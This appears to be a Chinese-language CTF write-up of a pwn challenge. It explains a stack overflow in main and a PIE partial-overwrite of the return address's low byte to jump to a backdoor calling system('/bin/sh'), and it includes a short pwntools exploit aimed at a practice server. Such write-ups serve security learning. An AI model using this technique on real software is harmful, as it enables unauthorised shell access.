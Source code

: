 ![image-20240421145251671](../typora-user-images/image-20240421145251671.png)

用IDA打开

![image-20240421154600666](../typora-user-images/image-20240421154600666.png)

存在后门函数

![image-20240421154834880](../typora-user-images/image-20240421154834880.png)

main函数存在栈溢出漏洞

由于存在PIE保护机制，地址每次都会变化，但是ELF是按页对齐，一页是0x1000，所以低三位十六进制的值不会改变 因为后门函数的地址与有溢出的函数的地址非常接近，所以只需修改最低一字节就能控制程序流到后门

![image-20240421154955151](../typora-user-images/image-20240421154955151.png)

地址非常接近

我们直接需要的就是system("/bin/sh")

![image-20240421155110878](../typora-user-images/image-20240421155110878.png)

是小端程序，读取地址时候，先读取低位，所以只需栈溢出到返回地址时覆盖低位地址为6c即可

exp

```python
from pwn import *

# p=process("./pwn")
p=remote("node5.buuoj.cn",28119)

padding=0x20+8

payload=b'a'*padding+p8(0x6c)

p.sendline(payload)
p.interactive()

```

![image-20240421160144274](../typora-user-images/image-20240421160144274.png)





#### Random

![image-20240421160757042](../typora-user-images/image-20240421160757042.png)

考点ctypes，pwntools

用IDA打开

![image-20240421162647740](../typora-user-images/image-20240421162647740.png)
